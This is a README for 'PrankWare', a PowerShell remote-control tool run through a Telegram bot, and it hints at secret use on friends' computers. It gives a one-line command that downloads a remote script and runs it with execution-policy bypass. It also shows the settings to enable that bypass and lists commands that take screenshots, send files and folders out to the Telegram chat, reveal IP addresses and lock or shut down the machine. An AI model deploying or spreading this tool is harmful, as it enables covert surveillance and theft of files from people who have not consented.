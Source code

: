 # Telegram-Controlled PowerShell Script

**Get persistent remote control access through Telegram commands.**  
Don't use it when your friends are away from their computer 🤫  
This script allows you to control a Windows system remotely through Telegram, offering various functionalities like taking screenshots, sending files, locking or restarting the system, and more.

## 🛠 Prerequisites

- Windows 10 or newer
- PowerShell 5 or later (built-in)
- Internet connection
- A Telegram bot token (from [@BotFather](https://t.me/BotFather))
- Your own Telegram user ID (use [@userinfobot](https://t.me/userinfobot))

### 📥 How to Create a Telegram Bot
1. Open Telegram and search for `@BotFather`.
2. Start a conversation and type `/newbot` to create a new bot.
3. Follow the instructions to set a name and username for your bot.
4. After completion, you will receive a **bot token** which you'll use in the script.

## 🔒 Enable Script Execution

Before running the script, allow PowerShell to execute local scripts:

## Powershell (Permanent fix)
```
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned
```
## Powershell (One-time fix for your session)
```
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
```
## Powershell pipeline
```
iwr 'https://raw.githubusercontent.com/xtofuub/PrankWare/main/prankware.ps1' -UseBasicParsing -OutFile $env:TEMP\prankware.ps1; powershell -ep bypass -File $env:TEMP\prankware.ps1
```



## Available Commands

### System Control
- `/lock`: Locks the workstation.
- `/restart`: Restarts the computer.
- `/shutdown`: Shuts down the computer.
- `/notepad`: Opens Notepad.
- `/pcname`: Shows the computer name.
- `/ip`: Shows local and public IP addresses.
- `/screenshot`: Takes a screenshot and sends it to the Telegram chat.
- `/sendfile <path>`: Sends a file from the local disk to the Telegram chat.
- `/sendfolder <path>`: Sends a zipped folder from the local disk to the Telegram chat.
- `/visit <url>`: Opens a URL in the default web browser.

### Navigation and File Operations
- `cd <path>`: Change directory to the specified path.
- `cd`: Displays the current directory.
- `ls` or `dir`: Lists files and folders in the current directory.

### Help
- `/help`: Displays a list of all available commands.

